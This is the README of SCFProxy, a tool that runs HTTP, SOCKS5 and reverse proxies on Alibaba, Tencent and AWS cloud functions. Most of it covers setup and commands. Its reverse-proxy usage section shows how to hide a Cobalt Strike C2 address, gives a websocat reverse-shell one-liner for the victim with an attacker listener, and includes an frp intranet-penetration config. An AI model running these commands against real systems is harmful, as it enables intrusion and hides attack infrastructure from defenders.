



# SCFProxy

[README](README.md) | [中文文档](README_zh.md)

SCFProxy is a tool to implement HTTP proxy, SOCKS proxy, and reverse proxy based on cloud function and API gateway
provided by several cloud service providers.

# Installation

Go to the [Release](https://github.com/shimmeris/SCFProxy/releases/) page to download the corresponding system package.

## Configuration Guide

## Configuration credentials

SCFProxy will generate a `sdk.toml` configuration file in the `~/.config/scfproxy` directory to configure the credential
of cloud providers.

This file will be loaded by default when `deploy/clear` command is run, or can be specified with the `-c config`
parameter.

## Supported Providers

### Alibaba

#### Restrictions

Reverse proxy is not supported

#### credentials

Alibaba requires the following credentials:

* AccountId
* AccessKeyId
* AccessKeySecret

`AccountId` can be obtained from the top right corner of the homepage under Personal Information


`AccessKeyId/AccessKeySecret` can be added to the [IAM](https://ram.console.aliyun.com/users) page to generate keys for
sub users

### Tencent Cloud

#### Restrictions

Deployment outside of mainland China is extremely slow, so only regions in mainland China are currently supported

#### credentials

Tencent Cloud requires the following credentials:

* SecretId
* SecretKey

The key can be generated by adding a sub user on the [IAM](https://console.cloud.tencent.com/cam) page

### AWS

#### Restrictions

Reverse proxy is not supported

#### credentials

AWS requires the following credentials:

* AccessKeyId
* AccessKeySecret
* RoleArn

`AccessKeyId/AccessKeySecret` can be generated on
the [IAM](https://us-east-1.console.aws.amazon.com/iamv2/home?region=us-east-1#/security_credentials) page.

`RoleArn` can be created by referring to
the [Lambda Execution Roles](https://docs.aws.amazon.com/zh_cn/lambda/latest/dg/lambda-intro-execution-role.html) page,
and then filling the corresponding role ARN into the ` sdk.toml` file.

# Usage guide

## Query

The `scfproxy list` accepts the following five parameters.

* `provider` lists currently supported cloud providers and can be filtered by the `-m [http|socks|reverse]` parameter to
  find the providers that support a certain proxy.
* `region` list regions where cloud provider can be deployed, and the `-p providers` parameter is used to specify the
  cloud provider
* `http` Lists deployed HTTP proxies
* `socks` Lists deployed SOCKS proxies
* `reverse` List deployed reverse proxies

## HTTP proxy

### Deployment

```console
scfproxy deploy http -p provider_list -r region_list [-c providerConfigPath]
```

`provider_list` and `region_list` pass in a list of parameters separated by `,`.

`region_list` supports the following 4 forms (supported on `deploy` and `clear` commands)

* `*` for all regions
* `area-*` indicates all regions with `area` prefix
* `are-num` indicates the top `num` regions supported by the area (codes are returned in hard-coded order)
* Standard region form provided by the cloud provider

For each `provider` provided in the parameter, the `region` is resolved as described above, and non-existent `regions`
are ignored.

Example:

```console
// Check the regions supported by Alibaba and Tencent
scfproxy list -p alibaba,tencent

scfproxy deploy http -p alibaba,tencent -r ap-1,eu-*,cn-shanghai
```

The result of the above command is

1. Deploy the http proxy on `ap-northeast-1`, `eu-central-1`, ` eu-west-1`, `cn-shanghai` regions of `alibaba`
2. Deploy the http proxy on `ap-beijing` region of `tencent`

All HTTP proxies deployed through this project will be saved in `~/.config/scfproxy/http.json` for loading when running
the http proxy.

### Run

The first run will generate `scfproxy.cer` and `scfproxy.key` certificates in `~/.config/scfproxy/cert` directory, which
need to be imported into the system certificate and trusted before you can proxy
https requests.

```console
scfproxy http -l address [-c cert_path] [-k key_path]
```

`-l address` is in the format `ip:port`, you can omit the ip and use the `:port` form for deployment, which is
equivalent to `0.0.0.0:port`

Running HTTP proxy will load the records in `~/.config/scfproxy/http.json`, and if there are multiple deployed cloud
functions (regardless of provider), each HTTP request will randomly pick one of them to proxy.

#### Use effect



### Clear

```console
scfproxy clear http -p provider_list -r region_list [--completely]
```

The clear function only removes triggers by default, if you want to remove functions at the same time, you need to add
the `-e/--completely` flag

## SOCKS5 proxy

### Deployment

```console
scfproxy deploy socks -p provider_list -r region_list [-c providerConfigPath]
```

### Run

```console
scfproxy socks -l socks_port -s scf_port -h address [--auth user:pass] [-c providerConfigPath]
```

`-l socks_port` listen to socks_port and wait for user's socks5 connection

`-s scf_port` listens to scf_port and waits for connections from the cloud function

`-h address` for specifying the vps address that cloud function to connect back to

`--auth [user:pass]` for specifying socks authentication information, no authentication by default

The socks command needs to load `sdk.toml` for invoking functions and `~/.config/scfproxy/socks.json` for determining
the provider and region of the functions that can be invoked after deployment, so you need to copy the above two files
to the corresponding location in the vps to run.

If there are multiple deployed cloud functions (regardless of provider), the socks proxy will trigger the execution of
each cloud function and listen for connections from them, after which each socks connection from the client will
randomly pick one of the connections from the cloud function to proxy.

> The current timeout for socks proxy functions is 15m, so if you use socks proxy for a long connection such as mysql
> connection, you need to schedule it by yourself to avoid accidental connection disconnection when the time is up.

#### Use effect

**Long connections**

The socks5 proxy is used to connect to mysql, you can see that the ip address of the connection is from Alibaba, and
there is no disconnection between commands.


**short connection**
Similar to http, each connection will trigger the execution of the function


### Clear

```console
scfproxy clear socks -p provider_list -r region_list
```

## Reverse proxy

> **Only Tencent Cloud currently supports reverse proxy**

### Deploy

```console
scfproxy deploy reverse -p provider_list -r region_list -o origin [--ip ip_list]
```

`-o origin ` Used to specify the return source address to be used for reverse proxy, accepting HTTP and Websocket
protocols.

`--ip ip_list` is used to restrict access to the source so that only the ip in `ip_list` can access the reverse proxy
gateway address returned by the deployment.

### Usage Scenarios

The following usage scenarios are possible based on reverse proxies.

#### C2 address hide

Take cobaltstrike for example, just fill in the api's domain name into the listener's host

```console
scfproxy deploy reverse ... -o http://vps --ip victim
```


#### Reverse shell address hide

With the help of [websocat](https://github.com/vi/websocat), we can get reverse shell via websocket protocol.

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

The victim side executes.

```console
websocat ws://reverse_proxy_address sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

The attacker vps executes.

```console
websocat ws-l:0.0.0.0:port -- --binary -E --uncompress-zlib
```

The effect is as shown in.


#### Intranet penetration address hide

This scenario requires intranet penetration software that supports websocket protocol.

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

Using [frp](https://github.com/fatedier/frp) as an example, the client configuration.

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```

The effect is as shown in the E


### Clear

```console
scfproxy clear reverse -p provider_list -r region_list -o origin
```

The `-o origin` argument is used to locate the service to be removed

# TODO

- [x] Optimize and add reverse proxy functionality for other providers
- [ ] Optimize the code
- [ ] Beautify the output and error handling
- [ ] Add other cloud providers such as Huawei Cloud, GCP, Azure, etc.

